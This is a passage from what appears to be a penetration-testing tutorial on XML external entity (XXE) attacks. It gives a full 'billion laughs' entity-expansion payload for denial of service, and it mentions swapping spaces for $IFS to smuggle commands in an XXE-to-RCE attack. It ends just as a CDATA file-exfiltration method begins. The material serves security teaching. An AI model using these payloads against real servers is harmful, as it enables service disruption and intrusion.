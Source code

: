 **Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

See [https://airman604.medium.com/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7](https://airman604.medium.com/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7)

### 10. Denial of Service (DOS)

Finally, one common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:


```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

This payload defines the `a0` entity as `DOS`, references it in `a1` multiple times, references `a1` in `a2`, and so on until the back-end server's memory runs out due to the self-reference loops. **However, this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference**.



### 11. Advanced Data Exfiltration with CDATA

#### Alternative 1
We can utilize another method to extract any kind of data (including binary data) for any web application backend.

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

One easy way to tackle this issue would be to define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:
